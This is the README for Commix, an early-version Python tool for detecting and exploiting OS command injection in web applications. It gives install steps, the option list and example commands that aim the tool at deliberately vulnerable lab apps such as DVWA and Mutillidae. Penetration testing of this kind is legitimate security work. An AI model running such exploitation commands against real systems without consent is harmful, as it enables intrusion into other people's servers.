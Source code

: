 	                                       __
	   ___    ___     ___ ___     ___ ___ /\_\   __  _ 
	  /'___\ / __`\ /' __` __`\ /' __` __`\/\ \ /\ \/'\
	 /\ \__//\ \L\ \/\ \/\ \/\ \/\ \/\ \/\ \ \ \\/>  </
	 \ \____\ \____/\ \_\ \_\ \_\ \_\ \_\ \_\ \_\/\_/\_\
	  \/____/\/___/  \/_/\/_/\/_/\/_/\/_/\/_/\/_/\//\/_/ { v0.01b }

	+--
	Automated All-in-One OS Command Injection and Exploitation Tool
	Copyright (c) 2015 Anastasios Stasinopoulos (@ancst)
	+--

#General Information

Commix (short for [comm]and [i]njection e[x]ploiter) has a simple environment and it can be used, from web developers, penetration testers or even security researchers to test web applications with the view to find bugs, errors or vulnerabilities related to command injection attacks. By using this tool, it is very easy to find and exploit a command injection vulnerability in a certain vulnerable parameter or string. Commix is written in Python programming language.


#Disclaimer
The tool is only for testing and academic purposes and can only be used where strict consent has been given. Do not use it for illegal purposes!!


#Requirements
[Python](http://www.python.org/download/) version **2.6.x** or **2.7.x** is required for running this program.


#Installation
Download commix by cloning the Git repository:

    git clone https://github.com/stasinopoulos/commix.git commix


#Usage
    Usage: python commix.py [options]

####Options:

    -h, --help            Show help and exit.
    --verbose             Enable the verbose mode.
    --install             Install 'commix' to your system.
    --version             Show version number and exit.
    --update              Check for updates (apply if any) and exit.

####Target:
    This options has to be provided, to define the target URL.

    --url=URL           Target URL.
    --url-reload        Reload target URL after command execution.

####Request:

    These options can be used, to specify how to connect to the target
    URL.

    --method=METHOD     HTTP method (GET or POST).
    --host=HOST         HTTP Host header.
    --referer=REFERER   HTTP Referer header.
    --user-agent=AGENT  HTTP User-Agent header.
    --cookie=COOKIE     HTTP Cookie header.
    --headers=HEADERS   Extra headers (e.g. 'Header1:Value1\nHeader2:Value2').
    --proxy=PROXY       Use a HTTP proxy (e.g. '127.0.0.1:8080').
    --auth-url=AUTH_..  Login panel URL.
    --auth-data=AUTH..  Login parameters and data.
    --auth-cred=AUTH..  HTTP Basic Authentication credentials (e.g.
                        'admin:admin').

####Injection:

    These options can be used, to specify which parameters to inject and
    to provide custom injection payloads.

    --param=PARAMETER   Parameter(s) to inject (use 'INJECT_HERE' tag).
    --suffix=SUFFIX     Injection payload suffix string.
    --prefix=PREFIX     Injection payload prefix string.
    --technique=TECH    Specify a certain injection technique : 'classic',
                        'eval-based', 'time-based' or 'boolean-based'.
    --maxlen=MAXLEN     The length of the output on time-based technique
                        (Default: 10000 chars).
    --delay=DELAY       Set Time-delay for time-based and boolean-based
                        techniques (Default: 1 sec).
    --base64            Use Base64 (enc)/(de)code trick to prevent false-
                        positive results.

####Usage Examples:
**Exploiting Damn Vulnerable Web App :**

    python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --method="POST" --param="ip=INJECT_HERE&submit=submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"
    
**Exploiting php-Charts 1.0 *(using injection payload suffix & prefix string)* :**

    python commix.py --url="http://192.168.178.55/php-charts_v1.0/wizard/index.php?type=INJECT_HERE" --prefix="//" --suffix="'" 
    
**Exploiting OWASP Mutillidae *(using Extra headers and HTTP proxy)* :**

    python commix.py --url="http://192.168.178.46/mutillidae/index.php?popUpNotificationCode=SL5&page=dns-lookup.php" --param="target_host=INJECT_HERE" --method="POST" --headers="Accept-Language:fr\nETag:123\n" --proxy="127.0.0.1:8081"

